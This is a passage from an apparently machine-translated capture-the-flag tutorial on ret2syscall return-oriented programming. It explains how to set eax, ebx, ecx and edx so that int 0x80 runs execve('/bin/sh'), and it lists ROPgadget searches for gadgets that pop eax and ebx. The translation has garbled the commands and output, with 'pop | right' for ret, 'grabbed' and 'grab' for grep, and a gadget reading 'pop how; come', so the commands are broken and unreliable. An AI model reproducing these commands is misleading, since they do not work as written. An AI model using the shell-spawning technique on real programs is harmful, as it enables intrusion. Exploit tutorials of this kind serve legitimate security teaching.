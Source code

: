 
- https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8



To put it simply, as long as we put the parameters of the system call corresponding to the get shell into the corresponding registers, we can execute the corresponding system call by executing int 0x80. For example, here we use the following system call to get the shell


```C

execve("/bin/sh",NULL,NULL)

```



Among them, the program is 32 bit, so we need to make


- System call number, ie eax should be 0xb
- The first parameter, ebx, should point to the address of /bin/sh. In fact, the address of sh can be executed.
- The second parameter, ecx should be 0
- the third parameter, edx should be 0


And how do we control the values of these registers? Here you need to use gadgets. For example, if the top of the stack is now 10, then if pop eax is executed at this time, the value of eax is now 10. But we can&#39;t expect a continuous code to control the corresponding registers at the same time, so we need a piece of control, which is why we use ret at the end of the gadgets to control the execution flow again. To find out how to use gadgets, we can use the ropgadgets tool.


First, let&#39;s look for gadgets that control eax.


```shell

➜ ret2syscall ROPgadget --binary call --only &#39;pop | right&#39; | grabbed &#39;eax&#39;
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret

0x080bb196 : pop eax ; ret

0x0807217a : pop eax ; ret 0x80e

0x0804f704 : pop eax ; ret 3

0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret

```



You can see that all of the above can control eax, and I choose the second one as the gadgets.


Similarly, we can get gadgets that control other registers.


```shell

➜ ret2syscall ROPgadget --binary call --only &#39;pop | right&#39; | grab &#39;ebx&#39;
0x0809dde2: pop ds; pop ebx; pop esi; pop edi; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret

0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret

0x0809e1d4: pop ebx; pop ebp; pop how; come; ret
0x080be23f : pop ebx ; pop edi ; ret

0x0806eb69 : pop ebx ; pop edx ; ret

0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
```